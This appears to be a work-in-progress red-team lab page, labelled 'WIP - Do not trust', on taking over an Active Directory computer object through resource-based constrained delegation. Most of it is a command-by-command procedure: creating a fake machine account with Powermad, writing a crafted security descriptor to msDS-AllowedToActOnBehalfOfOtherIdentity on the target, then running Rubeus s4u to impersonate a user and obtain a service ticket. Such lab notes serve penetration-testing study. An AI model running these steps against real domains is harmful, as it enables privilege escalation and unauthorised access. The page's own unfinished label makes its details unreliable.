


# AD Computer Object Take Over and Privileged Code Execution


WIP - Do not trust


It's possible to gain code execution with elevated privileges on a computer if you have ownership privileges for the victim's computer AD object.

This lab is based on a video presented by [@wald0](https://twitter.com/_wald0?lang=en) - [https://www.youtube.com/watch?v=RUbADHcBLKg&feature=youtu.be](https://www.youtube.com/watch?v=RUbADHcBLKg&feature=youtu.be)

## Requirements

|  |  |
| :--- | :--- |
| Target computer | WS01 |
| Admins on target computer | mantvydas |
| Fake computer name | FAKE01 |
| Fake computer SID |  |
| Fake computer password |  |
| Windows 2012 Domain Controller |  |
|  |  |

Getting the target local admin of the system:

```text
net localgroup administrators
```


Since the attack will entail creating new computer objects on the domain, let's check if users are allowed to add computers to the domain - by default, a user should be allowed to add up to 10 computers. To check this, we can query the root domain object and look for property `ms-ds-machineaccountquota`

```csharp
Get-DomainObject -Identity "dc=offense,dc=local" -Domain offense.local
```


The attack also requires the DC to be running at least Windows 2012, so let's check if we're in the right environment:

```text
Get-DomainController
```


Last thing to check - target computer object must not have the attribute `msds-allowedtoactonbehalfofotheridentity` set:

```text
Get-NetComputer ws01 | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```


This is the attribute the above command is referring to:



Let's now create a new computer object for our computer `FAKE01` \(as referenced earlier in the requirements table\):

```csharp
import-module powermad
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```


Checking if the computer got created and noting its SID:

```csharp
Get-DomainComputer fake01
# computer SID: S-1-5-21-2552734371-813931464-1050690807-1153
```


Create a new raw security descriptor for the FAKE01$ computer principal:

```csharp
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2552734371-813931464-1050690807-1153)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```


Applying the security descriptor bytes to the target WS01$ machine:

```csharp
Get-DomainComputer ws01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```


Reminder - we were able to write this because offense\Sandy belongs to security group offense\Operations, which has full control over the target computer WS01$:


If our user did not have required privileges, you could infer that from the verbose error message:


Once the `msDS-AllowedToActOnBehalfOfOtherIdentitity` is set, it is visible here:


Same can be seen this way:

```csharp
Get-DomainComputer ws01 -Properties 'msds-allowedtoactonbehalfofotheridentity'
```


```csharp
\\VBOXSVR\Labs\Rubeus\Rubeus\bin\Debug\Rubeus.exe hash /password:123456 /user:fake01 /domain:offense.local
```


```csharp
\\VBOXSVR\Labs\Rubeus\Rubeus\bin\Debug\rubeus.exe s4u /user:fake01$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:spotless /msdsspn:cifs/ws01.offense.local /ptt
```




## References






